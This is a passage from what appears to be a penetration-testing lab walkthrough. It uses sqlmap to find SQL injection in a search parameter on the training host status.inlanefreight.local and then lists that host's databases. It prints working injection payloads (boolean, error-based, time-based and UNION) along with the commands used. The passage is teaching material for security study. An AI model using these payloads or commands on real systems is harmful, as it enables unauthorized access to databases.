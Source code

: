 Referer: http://status.inlanefreight.local/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=s4nm572fgeaheb3lj86ha43c3p
Connection: close

searchitem=*
</code></pre>
<p>Next, we run this through sqlmap as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ sqlmap -r sqli.txt --dbms=mysql 

&lt;SNIP&gt;

[00:07:24] [INFO] (custom) POST parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=%' AND 6921=6921#

    Type: error-based
    Title: MySQL &gt;= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=%' AND GTID_SUBSET(CONCAT(0x716a787071,(SELECT (ELT(5964=5964,1))),0x716a7a7171),5964) AND 'lVzh%'='lVzh

    Type: time-based blind
    Title: MySQL &gt;= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=%' AND (SELECT 1227 FROM (SELECT(SLEEP(5)))jrOp) AND 'ENPh%'='ENPh

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: searchitem=%' UNION ALL SELECT NULL,NULL,CONCAT(0x716a787071,0x78724f676c7967575469546e6b765775707470466457486b78436373696d57546b4f72704d47735a,0x716a7a7171),NULL#
---
[00:07:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL &gt;= 5.6
[00:07:38] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/status.inlanefreight.local'

[*] ending @ 00:07:38 /2022-06-21/
</code></pre>
<p>Next, we can enumerate the available databases and see that the <code>status</code> database is particularly interesting:</p>
<pre><code class="language-shell-session">[!bash!]$ sqlmap -r sqli.txt --dbms=mysql --dbs

&lt;SNIP&gt;

---
[00:09:24] [INFO] testing MySQL
[00:09:24] [INFO] confirming MySQL
[00:09:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL &gt;= 8.0.0
[00:09:24] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] status
[*] sys